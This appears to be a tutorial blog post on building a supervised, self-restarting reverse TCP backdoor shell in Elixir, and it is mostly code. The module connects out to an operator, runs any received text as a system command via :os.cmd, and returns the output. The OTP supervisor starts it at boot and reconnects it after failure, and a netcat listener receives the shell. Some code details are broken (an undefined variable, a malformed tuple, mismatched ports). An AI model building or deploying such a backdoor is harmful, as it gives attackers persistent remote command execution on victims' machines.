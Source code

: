 Elixir and Erlang seem to be very good fits for a reverse tcp backdoor shell. Afterall the network can disconnect, the target can shutdown their machine, etc. Things can and will go wrong! The Beam offers us great patterns and strategies to deal with these failures.

In this article we will build a supervised fault tolerant reverse tcp shell that can handle failures from both the client side as well as the server side. Let's get started. First run:

```bash
mix new backdoor --sup
```

This will create our new project. We will be using :gen_tcp from Erlang for all the TCP operations. This library uses the OS tcp libraries to make tcp sockets that we can read and write to like files. Open up the Backdoor module and type this in:

```elixir
defmodule Backdoor do
  @moduledoc """
  Main TCP process loops and handlers
  """
  require Logger

  # make tcp connection to host on port
  def connect(host, port) do
    Logger.info "Atempting to connect to #{inspect(host)} on port #{port}"
    case :gen_tcp.connect(host, port,
      [:binary, packet: :line, active: false, reuseaddr: true]) do
        {:ok, socket} ->
          # if connected send a prompt and start serve loop
          ''
          |> Prompt.add_prompt()
          |> write_line(socket)
          Task.start_link(fn -> serve(socket) end)
        {:error, reason} ->
          # if connection failed wait and try again in 5 seconds
          Logger.info(inspect(reason))
          Logger.info "Could not connect to #{inspect(host)} on port #{port}"
          Process.sleep(5000)
          connect(master, port)
      end
  end

  # server loop
  defp serve(socket) do
    # read a line
    line =
      read_line(socket)
      |> IO.chardata_to_string()
    command = Prompt.remove_newline(line)
    case command do
      "exit" ->
        # if command is exit then close the socket
        # This is not really needed but is an example of matching custom commands
        :ok = :gen_tcp.close(socket)
      com ->
        # anything else is treated as a system command and is piped to :os.cmd/1
        String.to_charlist(com)
        |> :os.cmd()
        |> Prompt.add_prompt()
        |> write_line(socket)
        # recursive loop
        serve(socket)
    end
  end

  # These are helper functions for reading lines, formatting prompts, etc
  defp read_line(socket) do
    case :gen_tcp.recv(socket, 0) do
      {:ok, data} ->
        data
      {:error, reason} ->
        Logger.info(inspect(reason))
        Logger.info "Could not receive"
    end
  end

  defp write_line(line, socket) do
    :gen_tcp.send(socket, line)
  end
    def remove_newline(line) do
    line
    |> String.replace("\r", "")
    |> String.replace("\n", "")
  end

  def add_prompt(charlist) do
    charlist ++ '\n\r =>>$'
  end

  def add_prompt_string(string) do
    string <> "\n\r =>>$"
  end
end
```

Great! we can already use this in iex:

```bash
iex -S mix
iex(1)> Backdoor.connect({127, 0, 0, 1}, 5555)
```

Hmm... that was a weird way to specify localhost, but that is Erlang for you. In another terminal we can run netcat:

```bash
nc -l localhost 555
=>>$ ls

Documents
Downloads
...
```

Alright we got our command prompt and we can run system commands. But we can't survive any failures... So we need to get supervised! Open up the Application module and add this:

```elixir
defmodule Backdoor.Application do
  use Application

  @impl true
  def start(_type, _args) do
    children = [
     # Add this map
     %{
        id: ReverseTCP,
        start: {Backdoor, :connect, [{127, 0, 0 1}, 555]}
      },
    ]

    opts = [strategy: :one_for_one, name: Backdoor.Supervisor]
    Supervisor.start_link(children, opts)
  end
end
```

Now we are supervising the backdoor process so if something goes wrong it will restart itself! We don't need to call the function from iex it will just get called on startup. You can try it by stopping the process in observer or hitting Ctrl+C from netcat.

Please remember this code is just for educational purposes. You can find all the code and more [here](https://github.com/karangejo/elixir-backdoor).
